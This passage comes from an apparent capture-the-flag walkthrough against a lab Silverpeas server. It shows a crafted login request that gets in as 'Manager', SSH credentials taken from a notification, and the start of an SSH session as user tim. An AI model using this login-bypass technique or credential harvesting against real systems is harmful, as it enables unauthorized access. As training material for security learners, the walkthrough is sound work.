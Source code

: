   Content-Type: application/x-www-form-urlencoded
  Content-Length: 36
  Origin: http://silverplatter.thm:8080
  Connection: keep-alive
  Referer: http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp
  Cookie: JSESSIONID=RG2HNOF4zRtsmh5IHn61OGRcKuHbjINKLpnrXVgA.ebabc79c6d2a
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  Login=Manager&DomainId=0
  ```

- Now, I'm in as `Manager`. You can find the SSH credentials in notification, use them to login with SSH and start looking for flags.

  ```
  SSH
  12/13/2023 Administrateur
  Notification manuelle
  -
  Delete
  Message:
  
  Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 
  
  Username: tim
  
  Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
  ```

---

## 🧍 User Privilege Escalation

- First flag is already there.

  ```
  ssh tim@silverplatter.thm
  
  Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
  tim@silver-platter:~$ whoami
  tim
  
  tim@silver-platter:~$ id
  uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
  
  tim@silver-platter:~$ pwd
  /home/tim
  
  tim@silver-platter:~$ ls -al
  total 12
  dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
  drwxr-xr-x 4 root root 4096 Dec 13  2023 ..
  -rw-r--r-- 1 root root   38 Dec 13  2023 user.txt
  